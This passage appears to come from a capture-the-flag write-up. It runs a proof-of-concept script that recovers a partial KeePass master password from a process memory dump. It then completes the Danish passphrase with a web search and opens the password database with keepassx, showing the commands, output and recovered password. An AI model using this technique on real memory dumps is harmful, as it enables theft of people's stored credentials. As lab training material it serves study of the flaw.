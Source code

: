 This is a single python file, we can download and execute :

```text
python3 ./poc.py KeePassDumpFull.dmp 
[.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

This is a short list of possible passwords with uncertainity on the first letters. We can note the passphrase is composed of 3 words.

We know that Lise is using Danish Language. Even if Enoch has setted "English" lnanguage, we still should consider Danish as a possibility.

The first word is too uncertain to use it, so we can search google for : "Danish med fl●de".

This will point an interesting result : https://www.myrecipes.com/extracrispy/danish-rodgrod-med-flode

This is matching our possible 3 words : "Rødgrød med Fløde"

If required, install keepassx:

```shell
apt install keepassx
```

Open the database :

```shell
keepassx ./passcodes.kdbx &
```

After a few tries, we can unlock with lowercase : "rødgrød med fløde"

![](assets/keepass.png)
